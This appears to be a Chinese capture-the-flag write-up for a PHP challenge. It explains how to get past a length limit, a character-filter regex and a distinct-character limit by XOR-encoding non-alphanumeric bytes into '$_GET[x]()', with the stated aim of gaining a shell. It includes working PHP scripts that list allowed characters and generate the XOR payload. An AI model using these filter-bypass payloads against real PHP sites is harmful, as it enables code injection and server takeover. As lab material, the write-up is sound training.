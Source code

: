 

第一关

>首先判断是否从GET方法获取 " _ " 参数的值
>
> 然后通过 strlen() 函数对GET方法对该值进行长度检测 , 如果字符串长度大于 18 就拦截信息
>
>接下来通过 preg_match() 正则过滤该值中的敏感字符 , 这个正则表达式非常严谨 , 过滤了绝大部分的可写字符
>
>最后通过 count_chars() 函数来限制该值中不同字符的个数
>
>很明显需要我们通过eval调用get_the_flag函数，然后上传bypass文件，最后拿到shell拿到flag。
>
> **Payload : ${xxxx^xxxx}{x}();&x= ...** , 转换后就变成了 **$_GET\[x]();&x= ...**

放几个有用的脚本

```php
//判断保留字
<?php
for ($i = 0; $i < 256; $i++) {
    if (!preg_match('/[\x00- 0-9A-Za-z\'"\`~_&.,|=[\x7F]+/i', chr($i))) {
        echo chr($i).' ';
    }
}
?>
```

```php
//异或生成
<?php
$l = "";
$r = "";
$argv = str_split("_GET");
for($i=0;$i<count($argv);$i++)
{
    for($j=0;$j<255;$j++)
    {
        $k = chr($j)^chr(255);
        if($k == $argv[$i]){
            if($j<16){
                $l .= "%ff";
                $r .= "%0" . dechex($j);
                continue;
            }
            $l .= "%ff";
            $r .= "%" . dechex($j);
            continue;
        }
    }
}
echo "\{$l`$r\}";
?>
```
